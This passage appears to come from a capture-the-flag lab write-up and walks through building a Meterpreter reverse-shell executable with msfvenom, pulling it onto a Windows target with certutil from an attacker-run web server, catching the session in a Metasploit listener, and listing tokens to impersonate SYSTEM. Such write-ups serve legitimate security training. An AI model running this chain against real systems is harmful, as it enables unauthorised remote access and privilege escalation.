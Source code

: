 ```bash
❯ msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.11.116.52 LPORT=4444 -f exe -o reverse-shell.exe
❯ python3 -m http.server 80
```

Then in the target machine, create a `Temp` folder and download the `reverse-shell.exe` file.

```bash
C:\>mkdir Temp
C:\>cd Temp
C:\Temp>certutil -urlcache -split -f http://10.11.116.52/reverse-shell.exe

```
 
Once with the `reverse-shell.exe` in the target machine, open a listener in `metasploit` and configure it.

```bash
❯ msfconsole
msf6 > use multi/handler
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 10.11.116.52
msf6 exploit(multi/handler) > run
```

Then we can execute the `reverse-shell.exe` binary.

```bash
C:\Temp>reverse-shell.exe
```

We should receive a meterpreter session at the `metasploit` listener.

```bash
[*] Started reverse TCP handler on 10.11.116.52:4444 
[*] Sending stage (177734 bytes) to 10.10.154.52
[*] Meterpreter session 1 opened (10.11.116.52:4444 -> 10.10.154.52:49248) at 2025-02-26 20:08:38 +0100
```

### Gaining Access as NT AUTHORYTY\SYSTEM

Once inside we can easily load the `incognito` module in order to impersonate a user.

```bash
meterpreter > list_tokens -u
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
             Call rev2self if primary process token is SYSTEM

Delegation Tokens Available
========================================
alfred\bruce
NT AUTHORITY\SYSTEM

Impersonation Tokens Available
========================================
No tokens available
```
